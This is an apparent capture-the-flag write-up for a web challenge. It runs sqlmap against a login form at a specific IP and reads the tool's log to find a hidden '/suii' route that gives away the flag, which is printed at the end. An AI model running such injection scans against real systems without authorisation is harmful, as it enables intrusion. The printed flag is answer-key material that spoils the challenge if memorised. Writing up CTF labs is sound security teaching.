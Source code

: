 # 4dm1n_c0ntr0l

## Write-Up

When Checking the given address `http://34.117.31.90/`, it appears a regular login form with username and password fields. And after submitting, nothing happens, just redirect to same page with `/login` route.

Checking for `robots.txt` or `.phps` files routes, but again, no success.

Let's perform an `sqlmap` request on the `POST` method of the form

```
sqlmap -u "http://34.117.31.90/login" --data="username=admin&password=admin" --method POST --dbs
```

The result is the following : 

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:22:45 /2022-12-24/

[22:22:45] [INFO] testing connection to the target URL
[22:22:46] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:22:48] [INFO] testing if the target URL content is stable
[22:22:49] [INFO] target URL content is stable
[22:22:49] [INFO] testing if POST parameter 'username' is dynamic
[22:22:50] [WARNING] POST parameter 'username' does not appear to be dynamic
[22:22:51] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[22:22:52] [INFO] testing for SQL injection on POST parameter 'username'
[22:22:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:23:03] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:23:06] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:23:11] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:23:17] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:23:23] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:23:28] [INFO] testing 'Generic inline queries'
[22:23:29] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:23:34] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:23:39] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:23:43] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:23:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[22:23:54] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[22:24:00] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[22:24:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[22:24:29] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:24:34] [INFO] target URL appears to have 2 columns in query
[22:24:34] [WARNING] applying generic concatenation (CONCAT)
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[22:25:04] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
got a 302 redirect to 'http://34.117.31.90:80/suii'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[22:26:05] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[22:26:19] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 72 times
[22:26:19] [ERROR] user quit

[*] ending @ 22:26:19 /2022-12-24/
```

It appears that a hidden route exists which is `/suii`, and when accessing this route, it seems to be public and give us directly the flag


## Flag

nitectf{w3nT_1nT0_Th3_s3rV3r}

## More information

https://www.youtube.com/watch?v=ZmLR_rWS89s
https://hackertarget.com/sqlmap-post-request-injection/
https://hackertarget.com/sqlmap-tutorial/

